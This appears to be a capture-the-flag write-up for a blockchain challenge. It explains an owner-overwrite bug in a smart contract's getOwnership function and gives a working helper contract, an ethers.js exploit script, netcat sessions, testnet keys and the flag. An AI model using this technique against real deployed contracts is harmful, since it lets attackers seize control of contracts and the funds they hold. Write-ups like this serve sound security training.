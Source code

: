 ```yaml
---
title: ephemeral
category: Miscellaneous
tags: Blockchain
completedDuringEvent: true
submitted: true
flag: ARA6{sh0u7_out_70_3ph3me24l_prov1d3r5}
draft: false
---
```

## Scenario

> The Ethereum testnet are one of the great place to test out stuff. Try my new favorite testnet at https://ephemery.dev/.
>
> To get the flag, solve the challenge and paste your proof-of-work result into the remote interface below.
> 
> `nc 103.185.52.95 13378`

By thehxnz

## Solution

Generating the proof-of-work result from `pow.py`, the result is `734514167936362`. We can paste the result into the remote interface to get the server's response.

```sh
$ nc 103.185.52.95 13378
verifiyer 0.1.0
Using https://otter.bordel.wtf/erigon

Enter your PoW: 734514167936362
PoW is valid.
Creating setup contract...
Setup       : 0x2812007F73614B913fb314770BAe528f8B7fc912
Challenge   : 0x1944C4d052D1E6d4ae16654eff2ea9089b7587da
Your Address: 0x29AB03c3f9cFf0CE4188B0b5945745c3c1A39DEF
Private Key : 0x2f85c431ef33e2ac950661946ad27429ed711bd85edcd248157f351c0fffd445
RPC         : https://otter.bordel.wtf/erigon
```

So this will create a **Setup Contract** and a **Challenge Contract**. In the **Setup Contract** the `player` variable will be set to the address we provide, and will create a **Challenge Contract** with the `owner` variable, where the `owner` variable is set to `msg.sender` from the **Setup Contract**.

```
constructor() {
    owner = msg.sender;
}
```

To solve the challenge we need to change the `owner` of the **Challenge Contract** to the `player` that we provide.

```
function isSolved() external view returns (bool) {
    return IChallenge(challenge).owner() == player;
}
```

From the `transferOwnership` function we can see that we have to change the owner of the **Challenge Contract** to the `player` that we provide. However, we cannot change the `owner` of the **Challenge Contract** because it does not meet the condition` msg.sender == owner`. Where msg.sender is the player and `owner` is the **Setup Contract** that we provide.

```
function transferOwnership(address newOwner) external {
    require(msg.sender == owner, "Not owner");
    owner = newOwner;
}
```

From the `getOwnership` function we can see that check if the caller is a contract then `staticcall` the `account` and call the `gas`, then copy the data from the `returndata` to the `sstore` at slot 0.

```
function getOwnership(address account) external {
    assembly {
        let size := extcodesize(caller())
        if iszero(eq(size, 0)) {
            revert(0, 0)
        }
        let why := staticcall(gas(), account, 0, 0, 0, 0x20)
        
        if iszero(eq(returndatasize(), 0x20)) {
            revert(0, 0)
        }
        returndatacopy(0, 0, 0x20)
        sstore(0, mload(0))
    }
}
```

To solve the challenge we need to change the `owner` of the **Challenge Contract** to the `player` that we provide. We can do this by deploying a **Helper Contract** that will return the `target` address in the `fallback` function where we return the `target` address in the `returndata`. We can then call the `getOwnership` function with the **Helper Contract** address to write to the `sstore` at slot 0.

```
function getOwnership(address account) external {
    assembly {
        let size := extcodesize(caller())
        if iszero(eq(size, 0)) {
            revert(0, 0)
        }
        let why := staticcall(gas(), account, 0, 0, 0, 0x20)
       
        if iszero(eq(returndatasize(), 0x20)) {
            revert(0, 0)
        }
        returndatacopy(0, 0, 0x20)
        sstore(0, mload(0))
    }
}
```

To solve the challenge we need to change the `owner` of the **Challenge Contract** to the `player` that we provide. We can do this by deploying a **Helper Contract** that will return the `target` address in the fallback function where we return the `target` address in the `returndata`. We can then call the `getOwnership` function with the **Helper Contract** address to write to the `sstore` at slot 0.

```
pragma solidity ^0.8.0;
contract Helper {
    // 'target' is stored in slot 0.
    address public target;
    constructor(address _target) {
        target = _target;
    }
    // Fallback returns 32 bytes containing 'target'
    fallback() external {
        assembly {
            let t := sload(0)
            mstore(0, t)
            return(0, 32)
        }
    }
}
```

To automate the process, we can create a script using `ethers.js` to interact with the **Challenge Contract** and the **Helper Contract**.

```js
const { ethers, JsonRpcProvider } = require("ethers");
const solc = require("solc");

const SETUP_ADDRESS = "0xBaD1Bf25A3EB1786a0105F429fA63014eA092ea0";
const CHALLENGE_ADDRESS = "0xCf28A080bc6EcAf35764B1e39a8577082B56707b";
const ADDRESS = "0x49F9cdFb00EfA58962Fe062D91B8cCeccEFE5D25";
const PRIVATE_KEY = "0xf17789631ebf2eb733017fa1b6df40ace37ec1e0c8e4742996917b3f37aef572";
const RPC_URL = "https://otter.bordel.wtf/erigon";

const setupABI = ["function isSolved() external view returns (bool)"];
const challengeABI = [
    "function transferOwnership(address newOwner) external",
    "function getOwnership(address account) external",
    "function owner() external view returns (address)",
];

async function compileHelper() {
    const helperSource = `pragma solidity ^0.8.0;
contract Helper {
    // 'target' is stored in slot 0.
    address public target;
    constructor(address _target) {
        target = _target;
    }
    // Fallback returns 32 bytes containing 'target'
    fallback() external {
        assembly {
            let t := sload(0)
            mstore(0, t)
            return(0, 32)
        }
    }
}`;

    const input = {
        language: 'Solidity',
        sources: {
            'Helper.sol': {
                content: helperSource
            }
        },
        settings: {
            outputSelection: {
                '*': {
                    '*': ['*']
                }
            }
        }
    };

    const output = JSON.parse(solc.compile(JSON.stringify(input)));
    const compiledHelper = output.contracts["Helper.sol"]["Helper"];
    const helperAbi = compiledHelper.abi;
    const helperBytecode = compiledHelper.evm.bytecode.object;
    return [helperAbi, helperBytecode];
}

async function exploit() {
    const provider = new JsonRpcProvider(RPC_URL);
    const wallet = new ethers.Wallet(PRIVATE_KEY, provider);
    console.log("Connected as:", wallet.address);

    const setup = new ethers.Contract(SETUP_ADDRESS, setupABI, wallet);
    const challenge = new ethers.Contract(CHALLENGE_ADDRESS, challengeABI, wallet);

    console.log("Owner before exploit:", await challenge.owner());
    console.log("Is solved:", await setup.isSolved());

    const [helperAbi, helperBytecode] = await compileHelper();

    console.log("Deploying Helper contract...");
    const helperFactory = new ethers.ContractFactory(helperAbi, helperBytecode, wallet);
    const helper = await helperFactory.deploy(wallet.address);
    const helperAddress = await helper.getAddress();
    await helper.waitForDeployment();
    console.log("Helper deployed at:", helperAddress);

    console.log("Calling getOwnership with helper address...");
    const tx = await challenge.getOwnership(helperAddress);
    await tx.wait();
    console.log("Transaction confirmed");

    /* console.log("Transferring ownership to wallet...");
    const tx2 = await challenge.transferOwnership(wallet.address);
    await tx2.wait();
    console.log("Ownership transferred to wallet"); */

    console.log("Owner after exploit:", await challenge.owner());
    console.log("Is solved:", await setup.isSolved());
}

exploit();
```

After running the script, we can see that the `owner` of the **Challenge Contract** is changed to the `player` we provided. The `isSolved` function will return `true` if the `owner` of the **Challenge Contract** is the same as the `player` we provided.


```sh
$ nc 103.185.52.95 13378
verifiyer 0.1.0
Using https://otter.bordel.wtf/erigon

Enter your PoW: 734514167936362
PoW is valid.
Challenge solved!
ARA6{sh0u7_out_70_3ph3me24l_prov1d3r5}
```